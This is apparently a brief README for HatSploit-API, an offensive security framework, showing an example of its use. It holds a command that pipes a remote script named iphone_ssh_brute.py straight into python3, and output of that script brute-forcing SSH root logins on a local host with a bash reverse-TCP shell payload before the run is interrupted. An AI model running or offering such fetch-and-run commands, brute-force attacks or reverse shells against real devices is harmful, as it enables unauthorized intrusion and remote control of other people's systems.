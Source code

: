 # HatSploit-API

HatSploit API examples.

> curl https://raw.githubusercontent.com/enty8080/HatSploit-API/main/iphone_ssh_brute.py | python3

```shell
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   774  100   774    0     0   1552      0 --:--:-- --:--:-- --:--:--  1551
[*] Using default payload unix/generic/bash_reverse_tcp...
[i] HOST ==> 192.168.1.68
[i] PAYLOAD ==> unix/generic/bash_reverse_tcp
 
[*] Exploiting 192.168.1.68...
[*] Attempt to log in as root:dottie...
[!] Exploit module interrupted.
```
